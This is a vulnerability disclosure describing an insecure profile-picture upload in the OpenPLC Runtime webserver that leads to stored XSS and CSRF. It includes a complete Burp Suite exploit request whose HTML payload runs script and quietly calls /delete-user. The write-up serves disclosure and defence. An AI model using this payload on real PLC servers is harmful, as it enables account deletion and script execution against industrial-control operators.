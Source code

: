 
# 🔥 Insecure File Upload in OpenPLC Runtime Webserver

## 📌 Summary

I discovered a vulnerability in the OpenPLC Runtime webserver (released version: 2024-12-31) that allows authenticated users to upload arbitrary files (e.g., `.html`, `.svg`) as profile pictures. These files are stored in the `/static/` directory and are accessible **without authentication**, enabling stored XSS or malicious hosting scenarios.

---

## 🧪 Affected Component

- Route: `/edit-user`
- Affected: File upload functionality for profile images

---

## ⚠️ Impact

- Arbitrary file upload with insufficient MIME and extension validation
- Stored XSS
- Malicious content hosting
- Unauthenticated access to uploaded files
- CSRF 

---

## 🎯 Attack Vector

1. Authenticated user uploads a `.html` or `.svg` file as a profile picture.
2. File is stored in `/static/` and given a predictable ID (e.g., `http://localhost:8080/static/336029.html`)
3. Any user (even unauthenticated) can access the uploaded file directly.
4. If the file contains JavaScript or other malicious code, it will execute in the victim’s browser.

---

## 📸 Visual Proof of Concept

### Dashboard when PLC is running
![dashboard.png](./dashboard.png)

### Uploading a malicious `.html` file
![choose file.png](./choose%20file.png)

### Using "All Files" to bypass image filter
![file.png](./file.png)

### Uploaded file executed from `/static/`
![poc.png](./poc.png)

---

## 🎞️ Video PoCs

- **Basic PoC demo**  
   [`poc de base.mp4`](https://github.com/user-attachments/assets/03b940c0-db32-49ec-ac9b-adebc3797e25)

- **Unauthenticated access demonstration**  
   [`unauthenticated.mp4`](https://github.com/user-attachments/assets/9133f961-1aaf-4223-a3e9-26311774e0ad)

- **CSRF PoC**  
   [`poc csrf.mp4`](https://github.com/user-attachments/assets/36960ecd-b62a-4e76-b381-542ad424e726)

---

## 📤 Exploit Request Example with Burp Suite Repeater

```http
POST /edit-user HTTP/1.1
Host: 127.0.0.1:8080
Content-Length: 1397
Cache-Control: max-age=0
sec-ch-ua: 
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: ""
Upgrade-Insecure-Requests: 1
Origin: [OpenPLC URL]
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryW3GoLRyFS7dyLS2B
User-Agent: [UA]
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:8080/edit-user?table_id=10
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: session=[cookie]
Connection: close

------WebKitFormBoundaryW3GoLRyFS7dyLS2B
Content-Disposition: form-data; name="user_id"

10
------WebKitFormBoundaryW3GoLRyFS7dyLS2B
Content-Disposition: form-data; name="full_name"

OpenPLC User
------WebKitFormBoundaryW3GoLRyFS7dyLS2B
Content-Disposition: form-data; name="user_name"

openplc
------WebKitFormBoundaryW3GoLRyFS7dyLS2B
Content-Disposition: form-data; name="user_email"

openplc@openplc.com
------WebKitFormBoundaryW3GoLRyFS7dyLS2B
Content-Disposition: form-data; name="user_password"

mypasswordishere
------WebKitFormBoundaryW3GoLRyFS7dyLS2B
Content-Disposition: form-data; name="file"; filename="poc cve.html"
Content-Type: text/html

<!DOCTYPE html>
<html>
<head>
  <title>PoC – Unfiltered Upload</title>
</head>
<body>
  <h1>Proof of Concept</h1>

  <p>Payload uploaded on vulnerable endpoint. If filtering is broken, executing script below proves stored XSS.</p>

  <h2>XSS Demo (auto-executed)</h2>
  <script>alert('PoC xss')</script>

  <h2>CSRF</h2>
  <img src="http://127.0.0.1:8080/delete-user?user_id=[User ID]" style="display:none" />

  <h2>document.domain</h2>
  <p>Opened from: <script>document.write(document.domain)</script></p>

  <h2>Manual link to malicious HTML</h2>
  <a href="https://google.com/" target="_blank">Click to redirect on google.com</a>
</body>
</html>

------WebKitFormBoundaryW3GoLRyFS7dyLS2B--
